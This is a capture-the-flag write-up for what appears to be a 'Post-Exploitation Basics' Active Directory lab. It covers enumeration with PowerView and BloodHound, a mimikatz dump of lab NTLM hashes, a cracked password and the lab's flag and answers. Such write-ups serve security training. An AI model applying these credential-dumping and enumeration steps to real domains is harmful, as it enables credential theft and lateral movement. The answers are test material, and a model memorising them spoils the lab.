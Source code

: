 > # Post-Exploitation Basics

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Enumeration w/ Powerview](#task-2---enumeration-w-powerview)
    - [Task 3 - Enumeration w/ Bloodhound](#task-3---enumeration-w-bloodhound)
    - [Task 4 - Dumping hashes w/ mimikatz](#task-4---dumping-hashes-w-mimikatz)
    - [Task 6 - Enumeration w/ Server Manager](#task-6---enumeration-w-server-manager)

<!-- /TOC -->

## Task 2 - Enumeration w/ Powerview
1. What is the shared folder that is not set by default?<br>
    Use `Invoke-ShareFinder` to display all shared folder on local machine.<br>
    ![](images/1.png)<br>
    **Answer:** Share

1. What operating system is running inside of the network besides Windows Server 2019?<br>
    Use `Get-ADComputer` to list all OS on a network.<br>
    The command is `Get-ADComputer -Filter * -Property * | Format-Table Name,OperatingSystem,OperatingSystemServicePack,OperatingSystemVersion -Wrap –Auto`
    ![](images/2.png)<br>
    **Answer:** Windows 10 Enterprise Evaluation

1. I've hidden a flag inside of the users find it<br>
    Use `Get-UserProperty`, you will see all attribute of the user.<br>
    ![](images/3.png)<br>
    At here, I choose `description` attribute with flag `-Properties`.<br>
    ![](images/4.png)<br>
    I found the flag and the password of SQL Service.<br>
    **Answer:** POST{P0W3RV13W_FTW}

## Task 3 - Enumeration w/ Bloodhound
1. What service is also a domain admin<br>
    Download `SharpHound.exe` from github [https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1](https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1).<br>
    Import .zip file to BloodHound, select `Find All Domain Admins`.<br>
    ![](images/5.png)<br>
    **Answer:** SQLSERVICE

1. What two users are Kerberoastable?<br>
    Select `List all Kerberoastable accounts`.<br>
    ![](images/6.png)<br>
    **Answer:** SQLSERVICE, krbtgt

## Task 4 - Dumping hashes w/ mimikatz
1. what is the Machine1 Password?<br>
    Run `mimikatz.exe` and extract all local hash.
    ```
    Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
    RID  : 000001f4 (500)                                         
    User : Administrator                                          
    LM   :                                  
    NTLM : 2777b7fec870e04dda00cd7260f7bee6 
                                            
    RID  : 000001f5 (501)                   
    User : Guest                            
    LM   :                                  
    NTLM :                                  
                                            
    RID  : 000001f6 (502)                   
    User : krbtgt                           
    LM   :                                  
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
                                            
    RID  : 0000044f (1103)                  
    User : Machine1                         
    LM   :                                  
    NTLM : 64f12cddaa88057e06a81b54e73b949b 
                                            
    RID  : 00000451 (1105)                  
    User : Admin2                           
    LM   :                                  
    NTLM : 2b576acbe6bcfda7294d6bd18041b8fe 
                                            
    RID  : 00000452 (1106)                  
    User : Machine2                         
    LM   :
    NTLM : c39f2beb3d2ec06a62cb887fb391dee0

    RID  : 00000453 (1107)
    User : SQLService
    LM   :
    NTLM : f4ab68f27303bcb4024650d8fc5f973a

    RID  : 00000454 (1108)
    User : POST
    LM   :
    NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

    RID  : 00000457 (1111)
    User : sshd
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6 

    RID  : 000003e8 (1000)
    User : DOMAIN-CONTROLL$
    LM   :
    NTLM : 1cc318a815f865c11604fa9c38731761

    RID  : 00000455 (1109)
    User : DESKTOP-2$
    LM   :
    NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

    RID  : 00000456 (1110)
    User : DESKTOP-1$
    LM   :
    NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
    ```
    Crack Machihne1's hash with [crackstation.net](https://crackstation.net).<br>
    ![](images/7.png)<br>
    **Answer:** Password1

1. What is the Machine2 Hash?<br>
    **Answer:** c39f2beb3d2ec06a62cb887fb391dee0

## Task 6 - Enumeration w/ Server Manager
1. What tool allows to view the event logs?<br>
    **Answer:** Event Viewer

1. What is the SQL Service password<br>
    From `BloodHound`, we can see the description of `SQLSERVICE` account.<br>
    ![](images/8.png)<br>
    **Answer:** MYpassword123
